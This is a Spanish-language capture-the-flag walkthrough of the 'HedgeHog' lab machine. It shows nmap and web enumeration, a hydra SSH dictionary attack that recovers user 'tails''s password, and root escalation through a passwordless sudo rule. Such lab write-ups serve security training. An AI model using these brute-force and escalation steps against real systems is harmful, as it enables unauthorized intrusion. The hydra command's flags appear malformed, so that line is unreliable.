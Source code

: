 - Tags: #HedgeHog
----
- [Maquian Hedge Hog](https://mega.nz/file/ic9VwYZJ#Hr1BjW2axoSRmUYbxhldmTNiYtBV9TQU83JDJPpoYww) ==> Enlace al laboratori, una ves descargado descomprimimos y desplegamos el laboratorio:
```bash
7z x hedgehog.zip # Descomprimimos el archivo
sudo bash auto_deploy.sh hedgehog.tar # Desplegamos el laboratorio.
```
---
- #### Fase Reconocimiento:
```bash
ping -c 1 172.17.0.2 # Realizamos una traza ICMP para determinar si podemos comunicarnos con el target

 wichSystem.py 172.17.0.2 # Logramos determinar gracias al ttl que estamoa ante una maquina linux
172.17.0.2 (ttl -> 64): Linux
```
---

- #### Fase Reconocimiento Puertos:
```bash
nmap -p- -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts 
extractPorts allPorts # Usamos nuestra utilidad para parsear la informacion mas importante.
nmap -sC -sV -p22,80 172.17.0.2 -oN targeted # Realizamos un escaneo exhaustivo para determinar los servicios y la version que corren detras de estos puertos.
nmap --script http-enum -p80 172.17.0.2 # Realizamos reconocimiento pero no reporta nada critico
```
---
- **(  22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0) )** ==> Tenemos una version de ssh.
- **( 80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu)) )** ==> Tenemos un servico apache desplegado por el puerto 80 del servidor, Por el codeName: **( Apache httpd 2.4.58 )** buscamos en la web **launchPad** que nos muestra que estamos ante una version: **( ubuntuNoble )**
----

- #### Fase Reconocimiento Web:
- **( http://172.17.0.2/ )** ==> Ingresamos al servicio web,
```bash
whatweb http://172.17.0.2 # Realizamos reconocimiento de las tecnologias. asi mismo wappyalyzer no nos reporta mucha informacion
http://172.17.0.2 [200 OK] Apache[2.4.58], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[172.17.0.2]
```
---
- Realizaremos reconocimiento de rutas y subdominios en el **target**
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 --add-slash # No reporto directorios
```
---
- Una ves realizado todas las posibles rutas y subdominios procedemos y no encontrando nada.
- **( tails )** ==> Tenemos este, Intentaremos ver si es algun usuario valido para el sistema
```bash
 hydra -l tails -P /usr/share/wordlists/rockyou.txt -t -f 64 ssh://172.17.0.2 # Aplicamos ataque de diccionario obteniendo la password valida. ( 3117548331 )

ssh-keygen -R 172.17.0.2 && ssh tails@172.17.0.2 -p 22 # Nos conectamos con este usuario y proporcionamos la password.
```
---

- #### Escalada Privilegios:
```bash
sudo -l
User tails may run the following commands on c13b4989963a:
    (sonic) NOPASSWD: ALL
```
---
- **( sonic )** ==>  Tenemos este usuario que puede ejecutar cualquier comando sin proporcionar password.
```bash
sudo -u sonic sudo su # Logramos elevar nuestro privilegio a root
```
